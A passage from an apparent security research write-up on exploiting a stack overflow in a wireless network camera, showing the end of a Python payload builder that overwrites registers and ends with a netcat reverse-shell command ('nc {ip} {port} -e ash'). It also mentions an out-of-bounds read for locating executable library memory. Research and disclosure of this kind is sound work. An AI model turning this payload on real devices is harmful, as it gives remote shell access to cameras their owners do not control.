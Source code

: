 ```
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (exit_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab" # padding
	payload += f"nc {ip} {port} -e ash #".encode() # command to execute as system
	
	return payload
```

And here is the exploit in action:

![stack_overflow_1_exploit.png](/assets/images/analysing_a_wireless_network_camera_part_4/stack_overflow_1_exploit.png)

Note that I could have used the OOB-read to work out where the ***libYiP2P.so*** memory is and therefore where our packet will land, and execute from there (as the ***libYIP2P.so*** memory is executable) - but I fancied a challenge!

# Stack Overflow 2
